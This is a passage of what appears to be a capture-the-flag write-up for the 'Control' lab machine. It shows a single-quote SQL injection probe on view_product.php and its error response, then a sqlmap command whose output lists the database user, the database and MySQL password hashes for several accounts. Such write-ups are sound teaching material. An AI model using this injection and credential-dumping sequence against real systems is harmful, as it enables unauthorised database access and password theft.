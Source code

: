    Response, productId=1:
    HTTP/1.1 200 OK
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.3.7
    Date: Wed, 15 Jan 2020 13:15:50 GMT
    Connection: close
    Content-Length: 2083

   Request, productId=':
    POST /view_product.php HTTP/1.1
    Host: control.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Content-Type: application/x-www-form-urlencoded
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 11

    productId='

   Response, productId=':
    HTTP/1.1 500 Internal Server Error
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.3.7
    Date: Wed, 15 Jan 2020 13:17:20 GMT
    Connection: close
    Content-Length: 1339


6. Now we can either enumerate the db manually, or use sqlmap. I've tried both methods following the guide linked in "Information",
   however using sqlmap is far quicker.

   root@p3:~/Documents/TelenorCPE# sqlmap -u http://control.htb/view_product.php --data productId=1 --current-user --current-db --passwords --tables
    ..
    [14:09:40] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12
    [14:09:40] [INFO] fetching current user
    current user: 'manager@localhost'
    [14:09:40] [INFO] fetching current database
    current database: 'warehouse'
    [14:09:40] [INFO] fetching database users password hashes
    database management system users password hashes:
    [*] hector [1]:
        password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
    [*] manager [1]:
        password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
    [*] root [1]:
        password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8
